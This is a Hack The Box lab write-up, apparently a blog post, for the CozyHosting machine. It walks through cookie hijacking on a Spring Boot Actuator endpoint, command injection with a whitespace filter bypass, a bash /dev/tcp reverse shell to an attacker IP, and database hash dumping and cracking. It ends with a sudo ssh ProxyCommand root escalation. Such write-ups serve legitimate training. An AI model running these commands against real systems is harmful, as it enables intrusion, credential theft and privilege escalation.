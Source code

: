 ```yaml
---
layout: single
title: CozyHosting - Hack The Box
excerpt: "CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges."
date: 2025-05-12
classes: wide
header:
  teaser: /img2/cozyhosting.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Cookie Hijacking
  - Command Injection + Filter Bypass
  - JAR archive inspection with JD-GUI + Information Leakage
  - PostgreSQL Database Enumeration
  - Cracking Hashes
  - Abusing Sudoers Privilege (ssh) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.230
```

![](/img2/Pasted%20image%2020250512101440.png)

- Add domain to local DNS

```bash
echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512101928.png)

- Dirsearch 

```bash
dirsearch -u http://cozyhosting.htb
```

![](/img2/Pasted%20image%2020250512110733.png)

## Exploitation

- Cookie Hijaking 

![](/img2/Pasted%20image%2020250512110918.png)

![](/img2/Pasted%20image%2020250512111041.png)

- RCE

![](/img2/Pasted%20image%2020250512113314.png)

![](/img2/Pasted%20image%2020250512113358.png)

> We can see the output command in the error

![](/img2/Pasted%20image%2020250512113618.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250512113743.png)

> We can bypass whitespaces with IFS variable

- Send reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.2/9000 0>&1'" | base64
```

![](/img2/Pasted%20image%2020250512115021.png)

## Post-exploitation

- Inspect .jar file

```bash
python3 -m http.server 8000
```

```bash
curl -o cozy.jar http://10.10.11.230:8000/cloudhosting-0.0.1.jar
```

- Connect to Postgresql Database

```bash
jd-gui
```

![](/img2/Pasted%20image%2020250512120446.png)

```bash
psql -h localhost -U postgres -d cozyhosting
```

```sql
select * from users;
```

![](/img2/Pasted%20image%2020250512121534.png)

```
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6e
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250512121722.png)

- Pivoting

```bash
su josh
```

- Sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250512122137.png)

```bash
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

![](/img2/Pasted%20image%2020250512122042.png)